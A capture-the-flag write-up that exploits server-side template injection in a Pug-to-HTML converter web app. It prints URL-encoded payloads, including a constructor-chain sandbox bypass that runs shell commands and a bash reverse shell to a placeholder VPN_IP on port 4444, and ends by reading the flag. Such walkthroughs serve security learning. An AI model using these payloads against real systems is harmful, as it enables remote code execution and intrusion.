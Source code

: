 ﻿---
sticker: lucide//book-template
---

# PORT SCAN
---


| PORT | SERVICE |
| :--- | :------ |
| 22 | SSH |
| 5000 | HTTP |



# RECONNAISSANCE
---

Let's check the website out:


![Pasted image 20250606121148.png](../../IMAGES/Pasted%20image%2020250606121148.png)

We are dealing with something called `PUG to HTML Converter`, **Pug** (formerly called Jade) is a server-side templating engine for Node.js that uses indentation and terse syntax to generate HTML. Under the hood, Pug compiles these templates into JavaScript functions that build an HTML string. Any interpolation tags, like `#{¦}` (escaped) or `!{¦}` (unescaped), are evaluated as JavaScript expressions at render time.

Let's check an exploit for this: 

![Pasted image 20250606121717.png](../../IMAGES/Pasted%20image%2020250606121717.png)

We got RCE via SSTI, let's proceed to exploitation.

# EXPLOITATION
---


First of all, we should send the request to our proxy, I'll be using Caido:

![Pasted image 20250606121819.png](../../IMAGES/Pasted%20image%2020250606121819.png)

As seen, we got a `template` parameter, let's try doing the SSTI:

```
template=doctype+html%0Ahead%0A++title+Test%0Ah1+Result%3A+%23%7B7*7%7D
```

![Pasted image 20250606122035.png](../../IMAGES/Pasted%20image%2020250606122035.png)


As seen, we get:

```html
<pre>&lt;!DOCTYPE html&gt;&lt;head&gt;&lt;title&gt;Test&lt;/title&gt;&lt;/head&gt;&lt;h1&gt;Result: 49&lt;/h1&gt;</pre>
```


That means `7*7` is being evaluated so, SSTI works, let's try reading more files and even attempt the RCE, let's try using the `require` function:

```js
template=h1+%23%7Brequire%28%27child_process%27%29.execSync%28%27id%27%29.toString%28%29%7D
```


![Pasted image 20250606122552.png](../../IMAGES/Pasted%20image%2020250606122552.png)

Require seems to be disabled on here, we can do a little trick with the `constructor` function:

```js
template=h1+%23%7Bthis.constructor.constructor%28%22return+process%22%29%28%29.mainModule.require%28%27child_process%27%29.execSync%28%27id%27%29.toString%28%29%7D
```

![Pasted image 20250606122635.png](../../IMAGES/Pasted%20image%2020250606122635.png)

There we go, `rce` works, let's send ourselves a reverse shell now:

```js
template=h1+%23%7Bthis.constructor.constructor%28%22return+process%22%29%28%29.mainModule.require%28%27child_process%27%29.execSync%28%22bash+-c+%27bash+-i+%3E%26+/dev/tcp/VPN_IP/4444+0%3E%261%27%22%29%7D
```

![Pasted image 20250606122827.png](../../IMAGES/Pasted%20image%2020250606122827.png)

Nice, we got our shell, no need to perform privilege escalation, we can simply read our flag:

```
find / -type f -name "flag.txt" 2>/dev/null\
/usr/src/app/flag.txt

user@774c7a0d6226:/tmp$ cat /usr/src/app/flag.txt
flag{3cfca66f3611059a0dfbc4191a0803b2}
```

![Pasted image 20250606123957.png](../../IMAGES/Pasted%20image%2020250606123957.png)

